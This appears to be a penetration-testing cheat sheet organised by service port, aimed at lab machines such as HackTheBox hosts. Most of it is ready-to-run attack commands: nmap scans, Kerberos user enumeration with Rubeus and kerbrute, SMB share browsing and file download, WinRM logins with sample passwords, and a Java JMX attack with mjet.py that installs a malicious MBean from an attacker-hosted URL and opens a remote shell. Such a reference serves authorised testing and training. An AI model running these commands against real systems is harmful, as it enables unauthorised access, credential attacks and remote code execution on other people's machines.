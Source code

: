 ## Initial scan  
Discover the hosts on the network : `nmap -Pn -p- -v 192.168.110.1-255`  
Scan all ports on a host and execute nmap scripts : `nmap -A -p- -v 192.168.110.55`  
  
## Port 88 - Kerberos  
Valid usernames can be discovered by brute force against a Kerberos service. When an invalid username is requested the server will respond using the Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN, allowing us to determine that the user name was invalid. Valid user names will illicit either the TGT in a AS-REP response or the error KRB5KDC_ERR_PREAUTH_REQUIRED, signaling that the user is required to perform pre authentication.   
<br/>
**Windows - User enumeration:**  
`Rubeus.exe brute /users:<userlist.txt> /domain:spookysec.local /password:yolo /dc:<dc_ip>`  
(One fake password is provided so the accounts are not bruteforced)  
  
**Linux - User enumeration:**  
`./kerbrute_linux_amd64 userenum --domain timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`     

## Port 135 - MSRPC  
TODO  
  

## Port 445 - SMB
**List SMB shares:**  
`smbmap -u "Guest" -H "10.10.11.152"`  
    
**Browse SMB shares:**  
`smbmap -u "Guest" -H "10.10.11.152" -r "IPC$"`    
    
**Download SMB files:**     
`smbmap -u "guest" -H 10.10.11.152 --download "Shares\Dev\winrm_backup.zip"`   
    
  
## Ports 389,636,3268,3269 - LDAP  
`nmap -n -sV -Pn --script "ldap* and not brute" 10.10.11.174`    
    
## Ports 5985,5986 - WinRM  
Using Evil-WinRM:    
`gem install evil-winrm`  
`evil-winrm -u Administrator -p 's3cure_PaSsw0rd'  -i <IP>/<Domain>`  
  
Using Powershell:  
`PS> $creds = (New-Object System.Management.Automation.PSCredential('admin',(ConvertTo-SecureString 's3cure_PaSsw0rd!' -AsPlainText -Force)))`   
`PS> Enter-PsSession -ComputerName 10.10.11.174 -Credential $creds`  
  
`PS> Invoke-Command -computername support.htb -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]`

## Port XXXX - Java RMI - JMX
**Command execution:**  
Use mjet.py : https://github.com/mogwailabs/mjet   
JMX is used to manage remote Java resources such as MBeans. If no authentication is configured, it is possible to list the differents MBeans:  
Install jdk and use the `jconsole` binary in `\Java\jdk-18.0.2\bin\jconsole.exe` to access the service.  
it is thus possible to install a malicious MBean and execute commands:  
  
Example commands : `jython mjet.py target.test.com 18051 install tonkabean http://<attacker_IP>:6666 6666`  
`jython mjet.py target.test.com 18051 command tonkabean "id"`  
`jython mjet.py target.test.com 18051 shell tonkabean`  
Uninstall the malicious MBean at the end : `jython mjet.py target.test.com 18051 uninstall`  
